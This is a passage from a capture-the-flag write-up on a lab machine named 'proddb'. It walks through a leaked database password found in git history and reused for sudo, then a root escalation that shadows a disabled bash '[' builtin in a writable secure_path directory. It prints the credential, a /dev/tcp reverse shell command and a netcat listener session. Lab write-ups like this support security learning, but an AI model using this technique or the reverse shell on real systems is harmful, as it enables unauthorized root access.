

Just a side by side so you can see them in action.

```bash
╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  2 root root 4096 Oct 19 20:05 .
drwxr-xr-x 19 root root 4096 Mar 27  2023 ..
-rw-r--r--  1 root root 3786 Oct 19 06:28 .bashrc
-rw-r--r--  1 root root  336 Oct 19 20:05 check.sh
```

The output for Linpeas is super super super long, and lead to many rabbit holes. But in those holes we find some interesting data.



A couple check scripts. And a find / command doesn't see their use anywhere...



And who sources a .bashrc into a health check curl? What's so special about this? Above we can see the diff command between the home bash and the opt bash and we get exactly one line different that's in the /opt/ dir that's not in the home directory. For now, we don't have a way to get root to execute this, so there's nothing of consequence to do yet. Let's put this in our notes for checking back on and continue our enumeration.



Back to that juicy Git folder. Looks like the whole git log is available to us and in there we can see notes about MySQL users changing

```bash
mcskidy@proddb:~/app$ git diff <redacted>
diff --git a/app.py b/app.py
index 5f5ff6e..875cbb8 100644
--- a/app.py
+++ b/app.py
@@ -10,7 +10,7 @@ app = Flask(__name__, static_url_path='/static')
 # MySQL configuration
 app.config['MYSQL_HOST'] = 'localhost'
 app.config['MYSQL_USER'] = 'mcskidy'
-app.config['MYSQL_PASSWORD'] = '<redacted>'
+app.config['MYSQL_PASSWORD'] = 'fSXT8582GcMLmSt6'
 app.config['MYSQL_DB'] = 'elfimages'
 mysql = MySQL(app)
```

A diff shows us that the password changed... but why? Surely McSkidy knows to use different passwords for their accounts...

```bash
mcskidy@proddb:~/app$ sudo -l
[sudo] password for mcskidy: #Insert Old MySQL password here
Matching Defaults entries for mcskidy on proddb:
    env_reset, mail_badpass,
    secure_path=/home/mcskidy\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mcskidy may run the following commands on proddb:
    (root) /usr/bin/bash /opt/check.sh
```

Nope, they don't. SHAME!

We finally have sudo access and we have some great information from here. One thing I did a lot in this challenge that really helped me pinpoint what the room creators were injecting, was to check these commands all out locally to see what the output was supposed to look like. This let me rule out a lot of googling I had to do on topics I didn't know, like how sudo adopts the secure_path during its execution.

We also found where `/opt/check.sh` is used, and have a way to run it in a root account.


Here's a screenshot of pspy64 in action while I test the behavior of the scripts in /opt to see exactly what I might be able to exploit.

[enable Man Page - Linux - SS64.com](https://ss64.com/bash/enable.html)

After some time I came back to my notes about potentially interesting vectors to target, namely: enable. At the time I didn't know this, but apparently [ is actually a function built in to bash. And enable can list and enable/disable those built in functions. And when a built in function is disabled, the natural path priority takes effect and you can have alternative binaries or aliases take over the behavior of those built in functions.

```bash
mcskidy@proddb:~$ enable -a
enable .
enable :
enable [
enable alias
...
mcskidy@proddb:~$ . /opt/.bashrc
mcskidy@proddb:~$ enable -a
enable .
enable :
enable -n [ <-- look here
enable alias
...
```
So when our `/opt/.bashrc` disables `[`, and we have a script doing if `[ this == that]`, what we really have is if `pleaseExploitMe otheruselessarguments`.

```bash
mcskidy@proddb:~$ ls
'['   app   linpeas   pspy64   user.txt
mcskidy@proddb:~$ ls /opt/
 check.sh 
mcskidy@proddb:~$ cat /home/mcskidy/\[
touch /opt/"$(id)"
mcskidy@proddb:~$ enable -a | grep "\["
enable -n [
mcskidy@proddb:~$ sudo /usr/bin/bash /opt/check.sh
Website is running: http://127.0.0.1:8000
mcskidy@proddb:~$ ls /opt/
 check.sh  'uid=0(root) gid=0(root) groups=0(root)'
```

And taking that into consideration, we simply make an executable `[` in our secure_path writeable folder `/home/mcskidy` that opens another reverse shell...

```bash
mcskidy@proddb:~$ cat \[
sh -i >& /dev/tcp/10.13.8.186/4446 0>&1

mcskidy@proddb:~$ sudo /usr/bin/bash /opt/check.sh
..........
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.13.8.186] from (UNKNOWN) [10.10.219.148] 42662
# whoami
root
# cd /root/
# ls
frosteau
root.txt
snap
yetikey4.txt
```

And we have our flag.

This event was super fun, and I am dying for next years. Thank you for following this series, or cheating up to the topic of your choice. I learned a lot and spent a lot of time staring at the abyss to get to this point. If I didn't have my team of rubber ducks and research partners, I probably wouldn't have had the answers to write this up and get it out to you, so thank you Stefano, DaRealPheyee, Ryzzoa, and Buggy. I'm looking forward to the next years' challenges.